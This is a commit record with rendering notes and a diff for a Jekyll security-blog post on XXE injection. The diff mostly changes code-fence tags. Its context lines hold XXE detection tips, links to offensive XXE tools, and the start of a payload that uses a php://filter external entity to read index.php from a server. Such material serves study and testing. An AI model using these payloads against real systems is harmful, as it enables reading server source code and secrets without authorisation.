

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-12-20-XXE.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2020-12-20-XXE.md

````diff
--- a/_posts/2020-12-20-XXE.md
+++ b/_posts/2020-12-20-XXE.md
@@ -15,7 +15,7 @@ XML external entity injection \(also known as XXE\) is a web security vulnerabil
 
 Detecion:
 
-```markup
+```text
 # Content type "application/json" or "application/x-www-form-urlencoded" to "applcation/xml".
 # File Uploads allows for docx/xlsx/pdf/zip, unzip the package and add your evil xml code into the xml files.
 # If svg allowed in picture upload, you can inject xml in svgs.
@@ -42,14 +42,14 @@ If works, then:
 
 ## Tools
 
-```markup
+```
 # https://github.com/BuffaloWill/oxml_xxe
 # https://github.com/enjoiz/XXEinjector
 ```
 
 ## Attacks
 
-```markup
+```
 # Get PHP file:
 <?xml version="1.0"?>
 <!DOCTYPE a [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
````
